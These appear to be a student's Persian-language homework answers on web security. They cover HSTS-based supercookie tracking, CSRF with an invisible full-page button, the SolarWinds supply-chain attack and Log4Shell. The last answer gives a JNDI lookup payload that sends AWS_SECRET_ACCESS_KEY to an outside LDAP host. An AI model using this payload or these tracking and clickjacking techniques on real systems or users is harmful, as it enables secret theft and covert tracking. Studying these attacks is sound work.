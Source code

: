 # 1
- False
- False
- False
- True
# 2
اگر با پروتکل https یک سایت را باز کنیم،
 دیگر مرورگر(حداقل کروم را من تست کردم) 
به ما امکان ارسال درخواست http به همان دامین را نمیدهد و 
یا اگر سایت را با http باز کنیم ولی هدر HTTP Strict Transport Security 
ست شده باشد مرورگر ما پروتکل را به https تغییر میدهد.
نکته ای که وجود دارد این است که مرورگر این موضوع را 
در یک دیتابیسی ذخیره میکند(به ازای هر دامین) که آیا باید https بزند یا خیر
میتوانیم از این دیتابیس که به ازای هر دامین یک boolean ذخیره میکند
استفاده کنیم و کاربر را نام گذاری کنیم و از آن به بعد 
هویت آن کاربر را حین بازدید از سایت های مختلف داشته باشیم.
حتی بعضی بروزر ها این دیتابیس بین حالت privary و عادی share است و 
یعنی هویت در حالت privary هم ممکن است قابل مشاهده باشد.
  مثلا یک مدل پیاده سازی این است که کاربر را به آدرس
   `http://0.mydomain.com/uniuqe_id/`
ریدایرکت کنیم و این ادرس مارا به آدرس
   `http://1.mydomain.com/uniuqe_id/`
و همینطور پیش برویم تا به مثلا آدرس ۱۰۰-ام برسیم
و پیاده سازی هر کدام به این صورت باشد که آدرس 
   `http://i.mydomain.com/uniuqe_id/`
 در پاسخ هدر HSTS را روشن کند اگر بیت i-ام unique_id ترو بود
 این گونه میتوانیم ۱۰۰بیت داخل دیتابیس ذخیره کنیم
 فرض کنید unique_id یک رشته رندم شامل کاراکتر های ۰ و ۱ است.
# 3
- اگر متد ما گت باشد میتوانیم
 از عکس استفاده کنیم و آدرس را مقدار دهی کنیم ولی اگر 
پست باشد برای انجام این حمله، به یک اسکریپت که فرم را
 ارسال کند نیاز داریم،
  پس این حمله نیاز دارد که کاربر روی یک دکمه
  کلیک کند و میتوانیم یک دکمه به اندازه تمام صفحه و نامرعی
  تولید کنیم تا کاربر هر جای صفحه کلیک کرد فرم حمله فایر شود
- این حمله کاملا سمت سرور اجرا میشود حتی با دستور کرل هم میشود این حمله را زد
- اکثر حملمه هایی که ما انجام میدادیم بدون جاوا اسکریپت ممکن نبودند، 
 زیرا منطق این حمله اجرا شدن اسکریپت در بروزر بود
  ولی مثلا اگر کد بکند یک سایتی درصورت اعمال شرایط خاصی ورودی کاربر
   را اجرا کند شاید بتوانیم بگوییم این نوع حمله را انجام داده ایم 
- میتوانیم بدون استفاده از جاوا اسکریپت یک سایت 
طراحی کنیم که کاملا شبیه درگاه پرداخت باشد و حمله را انجام دهیم
# 4
- محصول orion که توسط Solar Wind تولید و
 توسعه شده است توسط کمپانی های بزرگی استفاده میشد.
 هکر ها توانستند با دسترسی پیدا کردن به سرور های آپدیت این نرم افزار 
 کد مخرب را جایگزین کنند و
  پس از upgrade شدن نرم افزار توسط شرکت های ثالث هکر ها
  با استفاده کد مخرب که داخل اپدیت ها 
 قرار داده بودند دسترسی های مختلفی گرفتند.
- Microsoft, Intel, Cisco, Deloitte, FireEye, ...
- به نظر من پاسخ integrity است زیرا update ها توسط هکر ها عوض شده بودند
 و امضای آن فایل باید از بین میرفت 
-  دلیل اصلی این مشکل یک کارآموز بوده که
 با استفاده از پسور ضعیف(solarwinds123) تمام سیستم را به خطر انداخته است 
و همچنین ظاهرا این رمز داخل GitHub به صورت عمومی نیز منتشر شده بوده
- 
- به نظر من میتوانیم با امضا کردن فایل های آپدیت 
تا حد خوبی جلوی این مشکل را بگیریم و فایل های آپدیت را
امضا شده داخل update server ها قرار بدهیم 
به این صورت که حتی اگر دسترسی کامل به update server ها داشته باشیم صرفا میتوانیم پروسه آپدیت نرم افزار را مختل کنیم
# 5
امکان lookup در log4j به ما امکان لاگ کردن مقادیر
 از environment و یا از external resources را میدهد.
و اگر user input را لاگ کرده باشیم، امکان دارد یک jndi lookup باشد
 و مقادیر environment را به سرور خارجی منتقل کند و 
یا با لود کردن آبجکت های جاوا code execution انجام دهد.
مانند این:
${jndi:ldap://mydomain.com/${env:AWS_SECRET_ACCESS_KEY}}
